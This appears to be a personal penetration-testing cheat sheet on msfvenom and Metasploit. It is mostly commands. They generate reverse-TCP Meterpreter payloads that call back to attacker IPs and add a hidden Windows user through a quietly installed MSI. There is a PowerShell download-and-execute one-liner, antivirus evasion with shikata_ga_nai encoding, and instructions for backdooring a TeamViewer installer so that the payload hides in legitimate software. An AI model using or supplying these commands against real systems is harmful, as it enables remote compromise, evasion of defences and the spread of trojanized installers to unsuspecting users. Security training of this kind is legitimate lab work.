 ```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - Tooling
---
```

MSFVenom is the payload creating cousin of Metasploit. With it, you can create a wide variety of shellcodes, reverse TCP connectors, and much more. [MSFvenom - Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/)

Reverse connections are less likely to trigger prevention systems like the one initializing the connection is the victim host, which most of the time resides in what is known as a `security trust zone`. However, of course, this trust policy is not blindly followed by the security devices and personnel of a network, so the attacker must tread carefully even with this step.

## Usage

##### List Payloads 

```shell-session
msfvenom -l payloads
```

##### Options 

| Option                            | Description                                            |
| --------------------------------- | ------------------------------------------------------ |
| -p \<PAYLOAD\>                    | Generate a payload from the list in [[#List Payloads]] |
| LHOST=10.10.14.113 LPORT=443 <br> | Addresses to connect back to                           |
| -f elf                            | Format to generate the payload in                      |
| -o \<FILE\>                       | Output file                                            |
##  Setting Up Meterpreter Multi/Handler

```shell-session
msfconsole
```

```shell-session
use multi/handler
```

Set options.

```shell-session
run
```
## Commands

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1

iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
```

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi

msiexec /quiet /qn /i C:\Users\phoebe\exploit.msi
```


## Payload Encoders 

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. If we want to look at the functioning of the `shikata_ga_nai` encoder, we can look at an excellent post [here](https://hatching.io/blog/metasploit-payloads2/).

```shell-session
-e x86/shikata_ga_nai -i 10
```

Increasing the number following `-i` will increase the number of iterations of the encoder.

Encoders are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

#### Anti-Virus Bypass 

```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -e x86/shikata_ga_nai -i 100 -f csharp
```

If the program gets closed quickly you can use` msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate`  in MSF console


## Embed into Executables 

We can embed the shellcode into any installer, package, or program that we have at hand, hiding the payload shellcode deep within the legitimate code of the actual product. This greatly obfuscates our malicious code and, more importantly, lowers our detection chances. 

```shell-session
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

To improve our chances, we need to trigger the continuation of the normal execution of the launched application while pulling the payload in a separate thread from the main application. We do so with the `-k` flag as it appears above. However, even with the `-k` flag running, the target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment. If they do so, a separate window will pop up with the payload, which will not close until we finish running the payload session interaction on the target.